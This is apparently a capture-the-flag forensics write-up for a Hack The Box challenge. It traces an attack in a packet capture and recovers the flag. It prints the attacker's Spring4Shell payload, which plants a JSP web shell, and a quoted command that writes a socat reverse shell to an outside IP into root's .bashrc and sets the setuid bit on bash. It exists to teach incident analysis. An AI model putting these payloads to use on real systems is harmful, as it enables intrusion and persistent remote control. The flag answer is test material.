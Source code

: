 # Wrong Spooky Season



> “I told them it was too soon and in the wrong season to deploy such a website, but they assured me that theming it properly would be enough to stop the ghosts from haunting us. I was wrong.” Now there is an internal breach in the `Spooky Network` and you need to find out what happened. Analyze the the network traffic and find how the scary ghosts got in and what they did.

> Difficulty: Easy

{% file src="../../.gitbook/assets/forensics_wrong_spooky_season.zip" %}

Let's check file

```shell
┌──(kali㉿kali)-[~/Desktop/HackTheBoo/Wrong-Spooky-Season]
└─$ file forensics_wrong_spooky_season.zip 
forensics_wrong_spooky_season.zip: Zip archive data, at least v2.0 to extract, compression method=deflate
                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~/Desktop/HackTheBoo/Wrong-Spooky-Season]
└─$ unzip forensics_wrong_spooky_season.zip 
Archive:  forensics_wrong_spooky_season.zip
  inflating: capture.pcap            
                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~/Desktop/HackTheBoo/Wrong-Spooky-Season]
└─$ file capture.pcap                     
capture.pcap: pcap capture file, microsecond ts (little-endian) - version 2.4 (Ethernet, capture length 262144)
```

We have <mark style="color:yellow;">pcap</mark> file!

Use <mark style="color:red;">Wireshark</mark> open it.

<figure><img src="../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

We have a lot of TCP and HTTP protocol. Let's check it

<figure><img src="../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

Filter <mark style="color:blue;">HTTP</mark>, We can see <mark style="color:orange;">**ip.src = 192.168.1.180**</mark> <mark style="color:orange;"></mark><mark style="color:orange;"></mark> (Attacker) sent a POST request&#x20;

<figure><img src="../../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

Follow TCP stream we can see the URLencoded:

{% code overflow="wrap" %}
```java
class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bprefix%7Di%20java.io.InputStream%20in%20%3D%20%25%7Bc%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=e4d1c32a56ca15b3&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=
```
{% endcode %}

Use CyberChef decode this

<figure><img src="../../.gitbook/assets/image (9) (1).png" alt=""><figcaption></figcaption></figure>

{% code overflow="wrap" %}
```java
class.module.classLoader.resources.context.parent.pipeline.first.pattern=%{prefix}i java.io.InputStream in = %{c}i.getRuntime().exec(request.getParameter("cmd")).getInputStream(); int a = -1; byte[] b = new byte[2048]; while((a=in.read(b))!=-1){ out.println(new String(b)); } %{suffix}i&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=e4d1c32a56ca15b3&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=
```
{% endcode %}

Check google I know it is a Spring4Shell

<figure><img src="../../.gitbook/assets/image (7) (1).png" alt=""><figcaption></figcaption></figure>

&#x20;In this packet, Hacker is installing <mark style="color:red;">socat</mark> in the victim system and use reverse shell

<figure><img src="../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

{% code overflow="wrap" %}
```basic
echo 'socat TCP:192.168.1.180:1337 EXEC:sh' > /root/.bashrc && echo "==gC9FSI5tGMwA3cfRjd0o2Xz0GNjNjYfR3c1p2Xn5WMyBXNfRjd0o2eCRFS" | rev > /dev/null && chmod +s /bin/bash
```
{% endcode %}

In this we can see base64 encode so suspicious, check it

```python
import base64
a = "==gC9FSI5tGMwA3cfRjd0o2Xz0GNjNjYfR3c1p2Xn5WMyBXNfRjd0o2eCRFS"[::-1]
print(base64.b64decode(a))
```

We got flag:&#x20;

{% hint style="info" %}
HTB{j4v4\_5pr1ng\_just\_b3c4m3\_j4v4\_sp00ky!!}
{% endhint %}
